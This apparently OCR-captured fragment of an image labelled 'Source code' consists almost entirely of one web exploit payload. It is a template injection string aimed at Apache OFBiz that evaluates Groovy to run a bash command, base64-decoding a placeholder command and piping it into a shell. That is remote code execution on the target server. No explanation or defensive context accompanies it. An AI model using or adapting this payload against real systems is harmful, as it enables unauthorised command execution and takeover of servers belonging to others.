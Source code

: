 ${Static["org.apache.ofbiz.base.util.GroovyUtil"].eval("\'bash -c {echo,B64}|{base64,-d}|bash\'.execute()",null)}
